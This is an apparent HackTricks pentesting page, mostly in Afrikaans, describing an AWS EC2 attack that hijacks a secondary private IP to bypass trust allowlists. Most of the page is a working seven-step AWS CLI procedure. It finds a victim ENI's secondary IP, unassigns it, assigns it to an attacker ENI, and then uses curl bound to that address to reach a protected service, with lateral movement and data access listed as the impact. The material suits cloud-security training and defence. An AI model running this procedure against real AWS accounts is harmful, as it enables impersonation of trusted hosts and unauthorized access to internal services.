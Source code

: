 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

{{#include ../../../../banners/hacktricks-training.md}}

Misbruik `ec2:UnassignPrivateIpAddresses` en `ec2:AssignPrivateIpAddresses` om 'n slagoffer-ENI se sekondêre private IP te steel en dit na 'n aanvaller-ENI in dieselfde subnet/AZ te skuif. Baie interne dienste en security groups beheer toegang deur spesifieke private IP's. Deur daardie sekondêre adres te skuif, doen die aanvaller voor as die vertroude gasheer op L3 en kan hy toegang kry tot allowlisted services.

Vereistes:
- Permissions: `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses` on the victim ENI ARN, and `ec2:AssignPrivateIpAddresses` on the attacker ENI ARN.
- Beide ENIs moet in dieselfde subnet/AZ wees. Die teikenadres moet 'n sekondêre IP wees (primêre adres kan nie ontkoppel word nie).

Veranderlikes:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG on a target service that allows only $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>

Steps:
1) Kies 'n sekondêre IP van die slagoffer-ENI
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```
2) Verseker dat die beskermde gasheer slegs daardie IP toelaat (idempotent). As jy eerder SG-to-SG-reëls gebruik, slaan oor.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```
3) Basislyn: vanaf attacker instance moet versoek na PROTECTED_HOST misluk sonder spoofed source (bv. oor SSM/SSH)
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```
4) Ontkoppel die sekondêre IP van die slagoffer ENI
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
5) Ken dieselfde IP toe aan die attacker ENI (op AWS CLI v1 voeg `--allow-reassignment` by)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
6) Verifieer dat eienaarskap oorgeplaas is
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```
7) Vanaf die attacker instance, source-bind na die hijacked IP om die protected host te bereik (verseker dat die IP op die OS gekonfigureer is; indien nie, voeg dit by met `ip addr add $HIJACK_IP/<mask> dev eth0`)
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```
## Impak
- Omseil IP allowlists en voordoen as vertroude hosts binne die VPC deur secondary private IPs tussen ENIs in dieselfde subnet/AZ te skuif.
- Bereik interne dienste wat toegang op grond van spesifieke source IPs beheer, wat lateral movement en data-toegang moontlik maak.
